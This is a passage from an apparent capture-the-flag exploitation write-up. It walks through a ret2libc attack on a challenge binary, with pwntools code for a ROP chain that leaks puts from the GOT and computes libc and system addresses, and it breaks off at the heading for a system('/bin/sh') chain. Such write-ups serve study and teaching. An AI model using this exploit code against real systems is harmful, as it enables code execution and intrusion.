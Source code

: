 ```
0x406ed0 <puts@got[plt]+0000>    f0 92 8f 2d bb 7a 00 00 c0 f6 94 2d bb 7a 00 00    ...-.z.....-.z..
```
This GOT entry contains the actual resolved address of puts in `libc` (a full 64-bit address).

In other words, we can construct the ROP chain as follows:

```python
rop_chain = ( # First ROP-chain leaks the address of puts@libc and returns to main()
    p64(POP_RDI_GADGET) + 
    p64(elf.got["puts"]) + 
    p64(elf.plt["puts"]) + 
    p64(elf.symbols["main"])
)
p.sendlineafter(b'comment:\x1b[0m', rop_chain)  
```

Here’s what happens:
- We overwrite the return address with the address of a `pop rdi ; ret` gadget.
- `pop rdi` pops the address of the `puts@got` entry into the `rdi` register.
- The `ret` instruction then transfers control to `puts@plt`.
- The `puts` function is called with the address of the GOT entry as its argument, so `puts` will print the actual address of `puts` in `libc`.
- Finally, when `puts` reaches its `ret` instruction, execution returns to `main()`.

We can verify the chain in memory. The return address at `0x7ffd6c174c28` is overwrriten by the address of the `pop rdi` gadget address, the rest of the chain follows:

<p align="center">
  <img src="../docs/images/17_return_address_after.png" alt="Return address after first ROP chain" style="width: 70%;">
</p>

In this way, we perform a "libc leak": we reveal the actual memory address of `puts()` as loaded at runtime. 

This allows us to to compute the base address of `libc` and perform further exploitation:

```python
p.recvline()
puts_addr = u64(p.recvn(6).ljust(8, b"\x00")) # puts@libc
print("Leaked puts@libc address:", hex(puts_addr))                                                    
libc_addr = puts_addr - libc.symbols["puts"] # libc base
print("Calculated libc base:", hex(libc_addr))
system = libc_addr + libc.symbols["system"] # system@libc
print("Resolved system@libc:", hex(system))
```

### 0x7.3 Second ROP Chain: `system("/bin/sh")`
